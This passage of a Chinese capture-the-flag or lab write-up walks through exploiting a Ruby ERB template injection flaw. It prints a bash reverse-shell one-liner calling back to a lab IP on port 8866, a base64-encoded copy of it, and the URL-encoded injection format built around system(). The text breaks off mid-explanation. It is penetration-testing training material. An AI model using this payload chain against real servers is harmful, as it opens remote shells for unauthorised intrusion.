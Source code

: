 发现用burp抓包后修改数据再发送就不会被黑名单了，可能是burp跳过了某些js的限制，让我们直接跳过了malicious的审查，这也说明这个漏洞是存在利用的，确定了攻击方向，于是我们就开开心心编写payload咯

## 三、获得立足点

前面提到，我们发现了SSTI漏洞，于是我们要尝试编写payload来拿到基本用户的shell，由于我们是通过传参的方式来进行RCE，所以在编写payload的时候要复杂一点

首先是确定基本payload语句（记得换成你自己的ip地址和端口），如下：

```
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.13/8866 0>&1
```

这是基本反弹shell的语句，但是我发现直接执行语句似乎会触发某种错误

![截图 2024-03-05 16-46-10](https://s2.loli.net/2024/03/05/28EiNP4o9lJq1sw.png)

于是为了payload顺利执行，也为了避免后面可能会有一些关键字过滤，我们直接将payload使用base64编码来进行嵌套，这也是我们反弹shell的常用手段

我们在burp中的decoder将payload用base64编码

![截图 2024-03-05 17-04-31](https://s2.loli.net/2024/03/05/wR69o7HMGyV8lCB.png)

![截图 2024-03-05 17-05-40](https://s2.loli.net/2024/03/05/7AQguPzXw2anFo5.png)

这里很奇怪，如果我们直接把payload编码为base64会无法执行，但是如果我们从“-i”这个地方把payload分开来编码再拼在一起就可以，所以我们得到如下payload（base64格式）

```
IyEvYmluL2Jhc2gKYmFzaCAtaSA=PiYgL2Rldi90Y3AvMTAuMTAuMTYuMTMvODg2NiAwPiYxIA==
```

接下来就是要闭合ruby的语句来执行我们的payload了，在ruby的网页模板中使用

```
<%[恶意代码]%>;
```

这个格式来执行代码，同时我们使用的%a0是截断符号，它可以使bash在读取代码时读到这个符号时停止读取这一行的后续代码，取而代之的是接着执行后面的代码，所以我们有如下拼接格式

```
aaa%0a<%[恶意代码]%>;
```

但由于这个代码在输入网页后，发送到服务器前会被自动url编码，所以我们要对对应的字符手动进行url编码，防止自动url编码破坏了我们的恶意代码，于是我们修改为如下格式

```
aaa%0a<%25[恶意代码]%25>;
```

接下来就是对恶意代码的编写了，我们的payload已经变成了base64格式的代码，我们需要控制bash来反弹这个payload，于是我们要使用ruby中的system()函数来调用bash执行语句，于是

```
恶意代码=system("其余恶意代码");
```

而其余恶意代码要让base64格式的payload能被正确在bash中读取，在linux系统中，我们可以通过echo来写入文件或是执行命令，然后调用base64 -d来解析payload，最后再用bash执行，“|”符号的作用就是分割语句，于是有
